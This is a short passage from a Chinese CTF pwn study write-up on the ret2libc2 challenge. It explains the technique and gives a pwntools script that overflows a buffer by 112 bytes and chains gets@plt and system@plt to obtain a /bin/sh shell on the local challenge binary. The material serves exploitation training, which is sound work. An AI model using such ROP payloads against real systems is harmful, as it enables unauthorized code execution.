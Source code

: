 

![image-20250216125248588](./ctf-wiki-pwn刷题.assets/image-20250216125248588.png)



该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

````python
from pwn import *
p=process("./ret2libc2")

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])
#来梳理一下上行代码的执行顺序
#1.首先栈溢出先覆盖完ebp，然后覆盖函数返回值为gets_plt
#2.执行gets_plt，将buf2作为第一个参数，执行完后会ret，从而执行pop_ebx处的代码
#pop_ebx是为了平衡堆栈，用来把用完的buf2给弹出堆栈，这样ret的时候能正确指向system函数
#3.执行system_plt函数，4字节垃圾数据作为假的返回地址，buf2作为第一个参数

p.sendline(payload)

p.interactive()
````

